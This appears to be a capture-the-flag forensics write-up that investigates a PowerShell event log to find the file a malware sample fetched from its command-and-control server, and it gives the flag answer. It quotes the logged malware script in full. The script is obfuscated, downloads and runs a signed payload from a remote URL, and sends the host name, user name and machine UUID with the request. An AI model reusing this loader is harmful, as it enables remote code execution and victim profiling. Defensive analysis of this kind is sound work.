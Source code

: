 # DFIR 4

> **Challenge Description:** A lot of malicious PowerShell activities have triggered our EDR. Please investigate the given event log. What is the file name that being was used by the malware as part of the communication with their C2 server?
> 
> **Flag Format:** `ihack{filename.ext}`

After going through the log file manually, the constant invocation of script block IEX stood out of the spotlight the most.

```
ScriptBlock ID: 09ee9e58-6311-4724-871d-737c3f8ad7ba
Path: "
Verbose,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4105,Starting Command,"Started invocation of ScriptBlock ID: 7b57887c-a71f-4f2e-9502-00ea66c5cc18
Runspace ID: 9f39f3e3-de20-4e46-a1f3-5a77082d269f"
Warning,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4104,Execute a Remote Command,"Creating Scriptblock text (1 of 1):
if(!$v){$v='?rep_'+(Get-Date -Format 'yyyyMMdd')}

$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient).""DownloadData""($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] ""Administrator"")
```

 The PowerShell script is reaching out to a remote address, presumably the C2 server to retrieve a file `a.jsp`.

**Flag:** `ihack{a.jsp}`
